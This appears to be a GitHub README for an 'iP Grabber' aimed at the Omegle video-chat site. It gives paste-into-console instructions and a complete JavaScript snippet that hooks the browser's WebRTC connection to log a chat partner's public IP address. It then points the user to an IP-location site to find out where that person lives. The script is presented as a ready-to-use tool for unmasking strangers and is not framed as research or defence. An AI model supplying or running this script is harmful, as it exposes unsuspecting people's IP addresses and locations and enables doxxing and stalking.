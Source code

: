 # iP Grabber For Omegle!

<p><center>On the bottom of the README.md file is there a script that you can use for omegle!</center></p>

# Install process

<ul>
  <li>
    <p>First go to https://omegle.com</p>
    <p>Then inspect the site (ctrl + shift + i)</p>
    <p>Then press "Console"</p>
    <p>Then paste this script:</p>
    <p>window.oRTCPeerConnection  = window.oRTCPeerConnection || window.RTCPeerConnection

window.RTCPeerConnection = function(...args) {
 const pc = new window.oRTCPeerConnection(...args)

pc.oaddIceCandidate = pc.addIceCandidate

pc.addIceCandidate = function(iceCandidate, ...rest) {
 const fields = iceCandidate.candidate.split(' ')

if (fields[7] === 'srflx') {
console.log('IP Address:', fields[4])
}
return pc.oaddIceCandidate(iceCandidate, ...rest)

}

return pc
}
</p>
    <p>If you did that press "Enter"</p>
    <p>Then <b>DON'T</b> close the inspect element. Just go into a chat and you see the IP</p>
    <p>If you want to know where the person live go to this site: https://dnschecker.org/ip-location.php?ip and paste his ip there!</p>
  </li>
  </ul>
# Special Thanks:
    <a href="https://github.com/getgaming">GitHub</a>
    <a href="https://youtube.com/getgamingyt">Youtube</a>
    <a href="https://getgaming.ml">Website</a>
